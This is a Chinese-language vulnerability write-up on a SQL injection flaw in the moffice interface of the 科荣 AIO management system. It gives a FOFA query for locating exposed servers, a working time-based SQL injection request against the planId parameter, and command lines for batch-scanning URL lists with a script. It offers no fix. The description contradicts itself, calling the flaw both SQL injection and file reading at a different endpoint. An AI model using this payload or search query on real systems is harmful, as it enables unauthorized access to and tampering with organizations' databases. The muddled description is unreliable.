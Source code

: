 # 科荣 AIO 管理系统 moffice接口处存在SQL注入漏洞

### 1.漏洞描述

科荣AIO企业一体化管理解决方案,通过ERP（进销存财务）、OA（办公自动化）、CRM（客户关系管理）、UDP（自定义平台），集电子商务平台、支付平台、ERP平台、微信平台、移动APP等解决了众多企业客户在管理过程中跨部门、多功能、需求多变等通用及个性化的问题。科荣 AIO 管理系统存在文件读取漏洞，攻击者可以读取敏感文件。

科荣 AIO 管理系统PublicServlet接口处存在任意文件读取漏洞，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。

### 2.fofa语法

```plain
body="changeAccount('8000')"
```

### 3.漏洞复现

```plain
GET /moffice?op=showWorkPlan&planId=1';WAITFOR+DELAY+'0:0:5'--&sid=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/x
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719922900522-8c9a494c-4046-4d0f-98dc-026fa02c8605.png)

### 4.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```